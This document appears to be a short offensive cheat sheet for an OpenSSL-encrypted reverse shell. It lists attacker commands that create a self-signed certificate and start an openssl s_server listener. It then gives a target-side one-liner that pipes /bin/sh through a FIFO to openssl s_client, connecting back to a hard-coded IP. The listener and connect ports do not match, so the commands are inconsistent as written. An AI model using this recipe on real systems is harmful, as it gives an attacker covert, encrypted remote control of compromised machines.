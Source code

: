 # OpenSSL Encrypted Shell

### Attacker Machine

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes 
openssl s_server -quiet -key key.pem -cert cert.pem -port 8443
```

### Target Machine

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.50.180:8675 > /tmp/s; rm /tmp/s
```
